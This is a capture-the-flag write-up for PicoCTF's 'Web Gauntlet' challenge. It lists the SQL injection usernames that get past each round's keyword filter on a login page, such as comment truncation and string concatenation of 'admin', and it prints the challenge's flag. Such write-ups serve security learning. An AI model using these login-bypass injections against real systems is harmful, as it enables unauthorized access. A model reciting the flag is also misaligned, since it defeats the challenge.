 # Web Gauntlet
* Source: PicoCTF
* Link: [PicoCTF.org](https://picoctf.org/)
* Challenge: Web Gauntlet
* Category: Web Exploitation
* Points: 200
* Date: 08-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Problem:
![](./attachments/Pasted%20image%2020220407232135.png)

---
## Hints:
1. You are not allowed to login with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
4. sqlite
5. If your cookie keeps getting reset, try using a private browser window.

---
## Solution:
This is an QSL Injection challenge, we need to get past the filers.

We get two inks
The first is to a login page, the second is telling us the first filter is 'or', that means that the classic SQL Injection `' or 1=1--` won't work.

![](Pasted%20image%2020220408002633.png)

#### Round 1:

Filter: `or`

Username: `admin'--`

Password: `1`

#### Round 2:

Filter: `or and like = --`

Username: `admin';`

Password: `1`

#### Round 3:

Filter: `or and = like > < --`

Username: `admin';`

Password: `1`

#### Round 4:

Filter: `or and = like > < -- admin`

Username: `ad'||'min';`

Password: `1`

#### Round 5:

Filter: `or and = like > < -- union admin`

Username: `ad'||'min';`

Password: `1`

![](Pasted%20image%2020220408002116.png)

And the .php file.

![](Pasted%20image%2020220408001959.png)

We can see all the filers throughout the challenge, and at the bottom is the flag!

**Flag:** `picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}`

---
**Tags:** [[PicoCTF]] [[SQL Injection]]